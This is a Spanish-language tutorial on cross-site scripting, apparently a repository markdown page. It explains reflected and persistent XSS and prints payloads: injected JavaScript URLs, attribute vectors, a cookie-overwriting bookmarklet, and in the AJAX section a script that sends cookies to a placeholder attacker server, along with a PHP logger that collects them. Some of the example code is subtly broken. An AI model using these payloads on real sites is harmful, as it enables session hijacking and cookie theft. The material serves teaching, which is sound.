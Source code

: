 # Cross-Site Scripting (XSS)

El diagrama de secuencia del ataque de secuencias de comandos entre sitios

!https://upload.wikimedia.org/wikipedia/commons/thumb/7/78/Cross-site_scripting_attack_sequence_diagram_-_en.png/220px-Cross-site_scripting_attack_sequence_diagram_-_en.png

Una secuencia de comandos en sitios cruzados o Cross-site scripting (XSS por sus siglas en idioma inglés) es un tipo de vulnerabilidad informática o agujero de seguridad típico de las aplicaciones Web, que puede permitir a una tercera persona inyectar en páginas web visitadas por el usuario código JavaScript o en otro lenguaje similar (por ejemplo, VBScript). Se puede evitar usando medidas como CSP, política del mismo origen, etcétera.

Es posible encontrar una vulnerabilidad de Cross-Site Scripting en aplicaciones que tengan entre sus funciones presentar la información en un navegador web u otro contenedor de páginas web. Sin embargo, no se limita a sitios web disponibles en Internet, ya que puede haber aplicaciones locales vulnerables a XSS, o incluso el navegador en sí.

## Mecanismo de Ataque

XSS es un vector de ataque que puede ser utilizado para robar información delicada, secuestrar sesiones de usuario, y comprometer el navegador, subyugando la integridad del sistema. Las vulnerabilidades XSS han existido desde los primeros días de la Web.

Esta situación es habitualmente causada al no validar correctamente los datos de entrada que son usados en cierta aplicación, o no sanear la salida adecuadamente para su presentación como página web.

Esta vulnerabilidad puede estar presente de las siguientes formas:

- **Directa**: (también llamada Persistente): este tipo de XSS comúnmente filtrado, y consiste en insertar código HTML peligroso en sitios que lo permitan; incluyendo así etiquetas como <script> o <iframe>.
- **Indirecta**: (también llamada Reflejada): este tipo de XSS consiste en modificar valores que la aplicación web utiliza para pasar variables entre dos páginas, sin usar sesiones y sucede cuando hay un mensaje o una ruta en la URL del navegador, en una cookie, o cualquier otra cabecera HTTP (en algunos navegadores y aplicaciones web, esto podría extenderse al DOM del navegador).

## XSS Indirecto (Reflejado)

Supongamos que un sitio web tiene la siguiente forma:

`http://www.example.com/home.asp?frame=menu.asp`

y que al acceder se creará un documento HTML enlazando con un frame a menu.asp.

En este ejemplo, ¿qué pasaría si se pone como URL del frame un código javascript?

`javascript:while(1) alert("Este mensaje saldrá indefinidamente");`

Si este enlace lo pone un atacante hacia una víctima, un visitante podrá verlo y verá que es del mismo dominio, suponiendo que no puede ser nada malo y de resultado tendrá un bucle infinito de mensajes.

Un atacante en realidad trataría de colocar un script que robe las cookies de la víctima, para después poder personificarse como con su sesión, o hacer automático el proceso con el uso de la biblioteca cURL o alguna similar. De esta forma, al recibir la cookie, el atacante podría ejecutar acciones con los permisos de la víctima sin siquiera necesitar su contraseña.

Otro uso común para estas vulnerabilidades es lograr hacer phishing. Quiere ello decir que la víctima ve en la barra de direcciones un sitio, pero realmente está en otra. La víctima introduce su contraseña y se la envía al atacante.

Una página como la siguiente:

`error.php?error=Usuario%20Invalido`

es probablemente vulnerable a XSS indirecto, ya que si escribe en el documento "Usuario Inválido", esto significa que un atacante podría insertar HTML y JavaScript si así lo desea.

Por ejemplo, un tag como <script> que ejecute código javascript, cree otra sesión bajo otro usuario y mande la sesión actual al atacante.

Para probar vulnerabilidades de XSS en cookies, se puede modificar el contenido de una cookie de forma sencilla, usando el siguiente script. Solamente se debe colocar en la barra de direcciones, y presionar 'Enter'.

`javascript:void prompt("Introduce la cookie:",document.cookie).replace(/[^;]+/g,function(_){document.cookie=_;});`

## XSS Directo (Persistente)

Funciona localizando puntos débiles en la programación de los filtros de HTML si es que existen, para publicar contenido (como blogs, foros, etc.).

Normalmente el atacante tratará de insertar tags como <iframe>, o <script>, pero en caso de fallar, el atacante puede tratar de poner tags que casi siempre están permitidas y es poco conocida su capacidad de ejecutar código. De esta forma, el atacante podría ejecutar código malicioso.

**Ejemplos**: Una posibilidad es usar atributos que permiten ejecutar código.

`<BR STYLE="behavior: url(<http://yoursite/xss.htc>);"> <DIV STYLE="background-image: url(javascript:alert('XSS'))"> <IMG SRC=X ONERROR="alert(/XSS/)">`

## AJAX

Usar AJAX para ataques de XSS no es tan conocido, pero sí peligroso. Se basa en usar cualquier tipo de vulnerabilidad de XSS para introducir un objeto XMLHttp y usarlo para enviar contenido POST, GET, sin conocimiento del usuario.

Este se ha popularizado con gusanos de XSS que se encargan de replicarse por medio de vulnerabilidades de XSS persistentes (aunque la posibilidad de usar XSS reflejados es posible).

El siguiente script de ejemplo obtiene el valor de las cookies y seguidamente las enviaría al atacante.

**JavaScript**:

```javascript
var cookiesDeUsuario = document.cookie;

var xhr = new XMLHttpRequest(); // Objeto Ajax
xhr.open('GET', 'www.servidor-atacante.com/cookies.php');
xhr.send('c=' + cookiesDeUsuario);
```

**PHP (Servidor del Atacante)**:

```php
<?php

$archivo = fopen('log2.htm','a');

$cookie = $_GET['c'];

$ip = getenv ('REMOTE_ADDR');

$re = $HTTPREFERRER;

$fecha=date("j F, Y, g:i a");

fwrite($archivo, '<br />Cookie: '.htmlentities($cookie).'<br />Página: '.htmlentities($re));
fwrite($archivo, '<br /> IP: ' .$ip. '<br /> Fecha y Hora: ' .$fecha. '</hr>');

fclose($archivo);

?>
```
